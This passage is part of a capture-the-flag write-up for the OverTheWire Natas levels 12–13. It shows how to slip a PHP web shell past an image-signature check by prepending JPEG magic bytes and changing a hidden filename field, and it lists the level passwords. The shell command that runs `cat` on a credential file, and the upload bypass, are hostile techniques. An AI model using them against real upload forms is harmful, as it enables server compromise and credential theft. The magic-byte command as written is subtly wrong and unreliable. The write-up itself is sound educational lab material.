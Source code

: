 Upload the file. It will be uploaded as a valid php file and the link shall be given back to you. Visit the link to get the password.


Password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

#### Alternatively, use Burp to intercept traffic and change this particular fact.

# Level 13

## Bypassing checks on image signatures

URL: http://natas13.natas.labs.overthewire.org/

This time is similar to last time with one improvement.

```php
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image"; 
```

So how does `exif_imagetype` works? From [this](https://www.php.net/manual/en/function.exif-imagetype.php) link, it is clear that it reads the first bytes of an image and checks its signature. The magic bytes are `\xff\xd8\xff\xe0`. Thus simply do,

```s
cat \xff\xd8\xff\xe0 > text
```

Create `file.php` such that.

```php
<?
echo passthru('cat /etc/natas_webpass/natas14')
?>
```

Do 

```s
cat text file.php > file1.php
```

Fire up inspect element and change the following

```php
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```

to

```php
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.php" />
```

Upload. Open the link. And you have the password.

Password: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
